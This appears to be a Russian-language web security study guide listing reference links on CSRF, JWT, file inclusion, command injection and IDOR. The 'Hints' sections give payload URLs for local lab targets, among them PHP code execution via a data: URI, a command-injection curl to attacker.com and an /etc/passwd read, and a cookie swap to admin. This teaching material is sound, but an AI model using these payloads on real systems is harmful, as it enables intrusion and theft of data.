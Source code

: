 ### CSRF
- Интерактивный урок: https://www.hacksplaining.com/exercises/csrf
- Варианты защиты: https://habr.com/ru/post/318748/
- Описание и защита: https://learn.javascript.ru/csrf
- Обход при эксплуатации при типе данных JSON: https://www.geekboy.ninja/blog/exploiting-json-cross-site-request-forgery-csrf-using-flash/ и https://blog.appsecco.com/exploiting-csrf-on-json-endpoints-with-flash-and-redirects-681d4ad6b31b
- Описание, обход, эксплуатация: https://2017.zeronights.org/wp-content/uploads/materials/ZN17_MikhailEgorov%20_Neat_tricks_to_bypass_CSRF_protection.pdf
- Описание, защита - https://2017.zeronights.org/wp-content/uploads/materials/csrf_cors_etc.pdf

### JWT insecure
- Описание проблем технологии: https://www.slideshare.net/snyff/jwt-insecurity
- Потестировать токены: https://jwt.io/
- Шпаргалка с чек-листом для тестирования: https://assets.pentesterlab.com/jwt_security_cheatsheet/jwt_security_cheatsheet.pdf
- Описание, информация: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token

### LFI-RFI

- https://xakep.ru/2009/09/17/49508/
- https://xakep.ru/2011/07/03/55787/
- https://github.com/swisskyrepo/PayloadsAllTheThings/
- PHP_LFI_rfc1867 - PHP LFI to arbitratry code execution via rfc1867 file upload temporary files
- https://nvisium.com/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752.html
- Hints
    - http://127.0.0.1:8808/?page=help.php
    - http://127.0.0.1:8808/?page=https://pastebin.com/raw/RmeewV7i
    - http://127.0.0.1:8808/?page=data:,%3C?php%20system(%27id%27);%20?%3E#
    - http://127.0.0.1:8808/index.php?page=php://filter/convert.base64-encode/resource=index.php
    - http://127.0.0.1:8808/index.php?page=%68ttps://pastebin.com/raw/RmeewV7i

### Command Injection 
- https://www.owasp.org/index.php/Command_Injection
- https://hackware.ru/?p=1133
- Hints:
  - http://127.0.0.1:1337/?curl=https://google.com/;id
  - Blind
  - http://127.0.0.1:1337/blind.php?curl=127.0.0.1;%20sleep%202
  - Semi-blind
  - http://127.0.0.1:1337/semi_blind.php?curl=127.0.0.1%3B+curl+https://attacker.com/
  - Space Bypass
  - http://127.0.0.1:1337/filter.php?curl=127.0.0.1%3Bcat%24IFS%249%2Fetc%2Fpasswd

### IDOR

- https://www.bugcrowd.com/blog/how-to-find-idor-insecure-direct-object-reference-vulnerabilities-for-large-bounty-rewards/
- https://www.owasp.org/index.php/Testing_for_Insecure_Direct_Object_References_(OTG-AUTHZ-004)
- Hints
    - Register like 
    - http://127.0.0.1:1338/?user=admin&pass=admin&type=reg
    - Login like
    - http://127.0.0.1:1338/?user=admin&pass=admin&type=log
    - Register new user
    - http://127.0.0.1:1338/?user=test&pass=test&type=reg
    - Login like
    - http://127.0.0.1:1338/?user=test&pass=test&type=log
    - Change cookie (cook) to YWRtaW4=
    - Refresh page
    - http://127.0.0.1:1338/profile.php
